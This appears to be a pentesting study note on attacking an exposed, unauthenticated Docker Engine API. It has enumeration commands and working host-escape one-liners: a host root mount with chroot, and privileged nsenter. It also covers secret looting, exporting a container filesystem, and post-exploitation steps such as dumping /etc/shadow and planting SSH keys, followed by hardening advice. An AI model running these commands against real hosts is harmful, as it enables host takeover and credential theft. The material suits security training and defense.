

# 48 - Docker Engine API (Ports 2375/2376) Pentesting

## 1. Executive Summary

The Docker Engine exposes a REST API that controls the whole container host. When bound to TCP — **2375 (plaintext)** or **2376 (TLS)** — and left **unauthenticated** (the default for the raw TCP socket), anyone who can reach it has root-equivalent control of the host. The instant win: start a container that **bind-mounts the host root filesystem** (`-v /:/host`), then read/write any host file or chroot in → full host compromise. This is one of the highest-impact misconfigurations in container environments.

## 2. Protocol Overview & Architecture

The API (same one the `docker` CLI uses) lets you pull images, create/start containers, exec into them, inspect networks and read the daemon config. The daemon runs as **root**, and containers can request host mounts, `--privileged`, and host namespaces — so API access = host root. Point the CLI at a remote daemon with `-H` or `DOCKER_HOST`.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 2375,2376 <IP>
export DOCKER_HOST=tcp://<IP>:2375
docker version          # client + engine + API version
docker info             # daemon settings
docker ps -a            # running/stopped containers
docker images           # local images
# Raw API if no CLI:
curl -s http://<IP>:2375/version
curl -s http://<IP>:2375/containers/json
```

## 4. Exploitation Deep Dive

### 4.1 Host Filesystem Mount → Host Root
```bash
docker -H tcp://<IP>:2375 run -it -v /:/host alpine chroot /host sh
# now you are root on the HOST: read /etc/shadow, write SSH keys, cron, etc.
```

### 4.2 Privileged / Host-Namespace Escape
```bash
docker -H tcp://<IP>:2375 run --rm -it --privileged --pid=host --net=host alpine nsenter -t 1 -m -u -i -n sh
```
`--privileged` + `nsenter` into PID 1 drops you on the host with full capabilities.

### 4.3 Loot Images & Secrets
```bash
docker -H tcp://<IP>:2375 inspect <container>   # env vars often hold creds/tokens
docker -H tcp://<IP>:2375 export <id> -o c.tar  # exfil container fs offline
```
Image layers and container env frequently contain API keys, DB creds, cloud tokens.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Host root: add SSH key, cron, dump `/etc/shadow`.
- Harvest secrets from container env, mounted volumes, image layers.
- Pivot to the cluster/orchestrator (Swarm/K8s) and registry.

## 7. Defense & Hardening
1. **Never expose the Docker API over TCP without TLS+client-cert auth** (use 2376 with mutual TLS); prefer the local Unix socket.
2. Firewall 2375/2376 to admin hosts only.
3. Run rootless Docker; restrict who can reach the socket.
4. Monitor for remote `containers/create` with host mounts/`privileged`.

## 8. Chaining Opportunities
- Pull/push to **[[49 - Docker Registry (Port 5000) Pentesting]]**.
- Host root → cluster: **Cloud and Container Security** category.

## 9. Related Notes
- [[49 - Docker Registry (Port 5000) Pentesting]]

## 10. Tools
`docker` CLI (`-H`/`DOCKER_HOST`), `curl`, `nsenter`, `nmap`.
